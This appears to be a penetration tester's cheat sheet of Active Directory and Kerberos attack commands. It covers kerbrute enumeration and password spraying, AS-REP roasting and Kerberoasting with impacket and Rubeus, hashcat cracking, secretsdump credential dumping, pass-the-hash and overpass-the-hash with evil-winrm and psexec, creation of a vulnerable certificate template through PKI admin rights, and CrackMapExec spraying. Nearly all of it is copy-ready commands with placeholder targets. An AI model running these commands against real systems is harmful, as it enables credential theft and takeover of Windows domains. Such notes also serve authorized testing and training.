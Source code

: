 KERBRUTE:
---
#kerbrute #ad #enum #passwordspray #userenum #kerberos 

Sync time to DC, otherwise password spray / enum / brute force may fail!

```shell
sudo ntpdate -s $TARGET_IP
```

then

```bash
kerbrute userenum --dc $TARGET_IP -d $TARGET_AD users -t 100 -v
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD -t 100 -v users $PASSWORD 
kerbrute bruteuser --dc $TARGET_IP -d $TARGET_AD -t 100 -v passwords $USER
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD users -t 100 -v --user-as-pass
```

Dev version of kerbrute auto-checks for AS-REP Roastable accounts
```bash

```

AS-REP Roasting
---
#as-rep-roasting #kerberos #asrep-roasting

No password ticket query against a user list, not requiring Kerberos pre-authentication,
AKA. 
AS-REP Roasting or ASREP Roasting

```shell
impacket-GetNPUsers -no-pass -usersfile users -dc-ip $TARGET_IP $TARGET_DOMAIN/ -format hashcat
```

Against single user:

```shell
impacket-GetNPUsers $TARGET_DOMAIN/$TARGET_USER -no-pass
```

Or if you got a shell on machine:

```powershell
Rubeus.exe asreproast /format:hashcat /outfile:C:hashes.txt
```

And then brute force:
#ntlm #bruteforce 

```shell
hashcat -m 18200 hashes $ROCKYOU
#Print pass
hashcat -m 18200 hashes $ROCKYOU --show | awk -F':' '{print $3}'
```

Dump hashes using account credentials:
#dump #creds

```shell
impacket-secretsdump -dc-ip $TARGET_IP $USER:$PASSWORD@$TARGET_DOMAIN
```

Connect to Windows Machine using obtained hash (pass the hash):
#winrm #evil-win-rm #evilwinrm #pth #pass-the-hash

```shell
#remove aad3b435b51404eeaad3b435b51404ee: from hash
evil-winrm -i $TARGET_IP -u $USER -H $TARGET_HASH
```
---

Pre-compiled Windows binaries (Rubeus, Certify …):
---
#ghostpack #rubeus #certify #precompiled

[https://github.com/GhostPack](https://github.com/GhostPack)

---
Kerberoasting:
---
#kerberos #kerberoasting #ad #active-directory #windows 

Check if vulnerable accounts are present:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_DOMAIN/$USERNAME
```

Send request to TGS and extract the hash:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_DOMAIN/$USERNAME -request
```

Overpass the hash attack
---
(when NTLM protocol is disabled):
---
#overpass-the-hash

```shell
impacket-getTGT.py $TARGET_DOMAIN/$USER -hashes :$HASH
export KRB5CCNAME=$(pwd)/$USER.ccache
python psexec.py $TARGET_DOMAIN/$USER@$MACHINE_NAME.$TARGET_DOMAIN -k -no-pass
```

PKI Admin access
---
#pki #pki-admin #ad-template #vulnerable-template

PKI Admin can be abuse to create a vulnerable cert template which can then be exploited with Certipy (or certify and rubeus):

Download template creator module:

```
wget https://raw.githubusercontent.com/GoateePFE/ADCSTemplate/master/ADCSTemplate.psm1
# upload psm1 file to target
```

Use the module to create a vulnerable template:

```powershell
Import-Module .\ADCSTemplate
Export-ADCSTemplate -DisplayName Administrator > .\admin.json
download admin.json
```

then edit the following JSON properties:
```JSON
"msPKI-Certificate-Name-Flag":  1,
"msPKI-Enrollment-Flag":  0,
```
and make sure to have:
```json
"pKIExtendedKeyUsage":"1.3.6.1.5.5.7.3.2"
```
then
```powershell
New-ADCSTemplate -DisplayName Administrator2 -JSON (Get-Content .\admin.json -Raw) -Publish -Identity "$AD_DOMAIN(1st part no ".")\$USERNAME"
Set-ADCSTemplateACL -DisplayName Administrator2 -Type Allow -Identity '$AD_DOMAIN(1st part no ".")\$USERNAME' -Enroll

```
Scan with certipy 4.4+ for vulnerable templates
notes are in "Certificate Abuse" #Certificate-Abuse
List Active Directory AD Users:
---
#enumerate #ad #users

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASS --users
```

Password spraying with CME

```shell
crackmapexec smb $DOMAIN -u users  -p $PASS --continue-on-success
```


